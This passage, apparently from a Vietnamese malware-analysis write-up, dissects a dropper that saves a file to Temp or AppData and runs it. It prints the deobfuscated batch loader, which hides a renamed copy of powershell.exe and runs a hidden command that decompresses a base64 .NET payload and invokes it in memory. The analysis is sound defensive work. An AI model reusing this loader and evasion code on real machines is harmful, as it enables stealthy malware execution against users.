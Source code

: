 > tóm lại là nó sẽ chuẩn bị ghi dữ liệu nhị phân từ sinema vào tệp "yum.bat", và gọi đến path của các thư mục như **Tmp** hoặc **AppData**, để có thể lưu vào ở bước tiếp theo.

Cuối cùng:    
```
if (is_temp) {
    path = tempdir + "\\" + path;
} else {
    path = appdatadir + "\\" + path;
}

sugar.SaveToFile(path, 2);
if (path.endsWith(".jar")) {
    wshShell.run("java -jar \"" + path + "\"");
} else if (path.endsWith(".bat") || path.endsWith(".wsf")) {
    wshShell.run("wscript \"" + path + "\"");
} else {
    wshShell.run("\"" + path + "\"");
}
} catch (err) {
    WScript.Echo(err.message);
}
```
Thì ở bước này nó sẽ lưu dữ liệu dưới dạng nhị phân đã xử lý ở trên vào file với đuôi như **.bat** hoặc **.wsf** và thực thi nó.
    
Oke thì dựa vào những dấu hiệu bất thường trên, chúng ta có thể xác nhận đây có thể là dropper của mã độc.

Tiếp theo, ta cần biết được đoạn base64 đó đang encode cho thứ gì. Copy và paste vào cyberchef để decode thử.
<p align="center"><img src="https://hackmd.io/_uploads/BkGbF0a7lg.png" alt="image"></p>

với các lệnh như REM, set thì chúng ta có thể nhận định nó đang encode cho một **Batch Script**. Nhưng trông rất khó hiểu đúng không? Đúng rồi, vì nó đã bị obfuscate mà, cụ thể là **String obfuscate**
    
Thực hiện deobfuscate thì ta được script sau:
```
@echo off
set "RegistryKeyName_Channel=_NT_SYMBOL_CHANNEL_"
reg add "HKEY_CURRENT_USER\Environment" /v %RegistryKeyName_Channel% /d "1258850437876944929" /f
set "RegistryKeyName_ID=_NT_SYMBOL_ID"
reg add "HKEY_CURRENT_USER\Environment" /v %RegistryKeyName_ID% /d "1258850435972993145" /f
echo F | xcopy /d /q /y /h /i "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" "%~0.Qjv" # Evasion
attrib +s +h "%~0.Qjv"
set "CurrentScriptPath=%~dpnx0"
"%~0.Qjv" -WindowStyle hidden -command "$base64String = Get-Content '%CurrentScriptPath%' | select-object -Last 1; $compressedBytes = [System.Convert]::FromBase64String($base64String);$compressedStream = New-Object System.IO.MemoryStream( , $compressedBytes);$decompressedStream = New-Object System.IO.MemoryStream;$gzipStream = New-Object System.IO.Compression.GzipStream($compressedStream, [System.IO.Compression.CompressionMode]::Decompress);$gzipStream.CopyTo($decompressedStream);$gzipStream.Close();$compressedStream.Close();[byte[]]$decompressedPayloadBytes = $decompressedStream.ToArray();[Array]::Reverse($compressedBytes);$loadedAssembly = [System.Threading.Thread]::GetDomain().Load($decompressedPayloadBytes);$loadedAssembly.EntryPoint.DeclaredMethods[0].Invoke($null, [object[]]($null)) | Out-Null"
exit
```
